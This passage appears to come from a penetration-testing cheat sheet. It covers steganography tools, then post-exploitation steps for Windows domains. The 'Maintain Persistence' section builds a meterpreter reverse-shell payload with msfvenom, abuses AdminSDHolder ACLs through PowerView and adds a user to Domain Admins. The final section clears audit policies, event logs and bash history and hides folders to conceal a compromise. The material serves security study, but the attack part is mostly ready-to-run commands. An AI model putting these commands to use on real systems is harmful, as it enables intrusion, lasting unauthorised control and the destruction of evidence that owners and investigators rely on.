     * Hide data (Example: txt into a jpg)
    Type the message or select the file (txt) > Select the file (jpg) > choose the output location to the stego file > Hide data

    * Extract data (Example: txt from bmp or jpg)
    Select the input stego file > Select the output folder > Enter the password > Extract data

- [StegOnline (georgeom.net)](https://stegonline.georgeom.net/upload)

    - Hide data:
        Upload the file > Embebed files/data > Check the checkboxes under row 5 > Text option > Enter the text > Go > Download extracted data

    - Extract data:
        Extract files/data >  Check the checkboxes under row 5 > Go 


##   Maintain Persistence

>  Upload a reverse in the system
- `msfvenom -p windows/meterpreter/reverse_tcp lhost=ip lport=port -f exe > payload.exe`
- meterpreter> `upload /home/attacker/payload.exe`
- and create a new multi/handler

> PowerView and add a user, set a privileges and a group
- meterpreter> `upload -r /home/attacker/PowerTools-master C:\\\\Users\\\\Administrator\\\\Downloads`
- meterpreter> `shell` 
- `powershell`
- `cd C:\\\\Users\\\\Administrator\\\\Downloads\\\\PowerView`
- PS> `Add-ObjectAcl -TargetADSprefix 'CN=ADminSDHolder,CN=System' -PrincipalSamAccountName user -Verbose -Rights All`
- PS> `Get-ObjectAcl -SamAccountName "user" -ResolveGUIDs`
- PS> `REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Services\\NTDS\\Parameters /V AdminSDProtectFrecuency /T REG_DWORD /F /D 300`
- PS> `net group "Domain Admins" user /add /domain`


##   Clear logs to hide the evidence of compromise

```bash
# View policies and check wheter the audit policies are enabled
cmd> `auditpol /get /category:*`

# Enable the audit policies
cmd> auditpol /set /category:"system","account logon" /success:enable /failure:enable

# Clear audit policies
cmd> auditpol /clear /y

# Display a list of events logs:
cmd> el | enum-logs
cmd> wevtutil el

# Clear a log:
cmd> wevtutil cl system

# Clear Linux Machine Logs
history -c
history -w
shred ~/.bash_history && cat /dev/null > .bash_history && history -c && exit

# Hidding artifacts
cmd> mkdir test
cmd> attrib +h +s +r test
    
```